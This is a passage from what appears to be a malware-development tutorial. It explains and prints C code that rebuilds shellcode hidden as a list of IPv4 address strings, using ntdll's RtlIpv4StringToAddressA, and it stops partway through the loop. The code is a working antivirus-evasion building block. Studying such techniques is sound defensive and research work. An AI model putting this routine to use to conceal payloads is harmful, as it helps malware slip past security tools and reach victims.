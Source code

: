 The deobfuscation process works by first grabbing the address of `RtlIpv4StringToAddressA` using `GetProcAddress` and `GetModuleHandle`. Next, a buffer is allocated which will eventually store the deobfuscated payload of size `NmbrOfElements` * 4. The reasoning behind that size is that each IPv4 will generate 4 bytes.

Moving onto the for loop, it starts by defining a new variable, `TmpBuffer`, and setting it to be equal to `pBuffer`. Next, `TmpBuffer` is passed to `RtlIpv4StringToAddressA` as its fourth parameter, which is where the binary representation of the IPv4 address will be stored. The `RtlIpv4StringToAddressA` function will write 4 bytes to the `TmpBuffer` buffer, therefore `TmpBuffer` is incremented by 4, after, to allow the next 4 bytes to be written to it without overwriting the previous bytes.

Finally, `ppDAddress` and `pDSize` are set to hold the base address of the deobfuscated payload as well as its size.

```c
typedef NTSTATUS (NTAPI* fnRtlIpv4StringToAddressA)(
	PCSTR		S,
	BOOLEAN		Strict,
	PCSTR*		Terminator,
   	PVOID		Addr
);

BOOL Ipv4Deobfuscation(IN CHAR* Ipv4Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL, 
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv4StringToAddressA address from ntdll.dll
	fnRtlIpv4StringToAddressA pRtlIpv4StringToAddressA = (fnRtlIpv4StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv4StringToAddressA");
	if (pRtlIpv4StringToAddressA == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of IPv4 addresses * 4
	sBuffSize = NmbrOfElements * 4;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL){
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	
	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the IPv4 addresses saved in Ipv4Array
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one IPv4 address at a time
		// Ipv4Array[i] is a single ipv4 address from the array Ipv4Array
		if ((STATUS = pRtlIpv4StringToAddressA(Ipv4Array[i], FALSE, &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlIpv4StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv4Array[i], STATUS);
```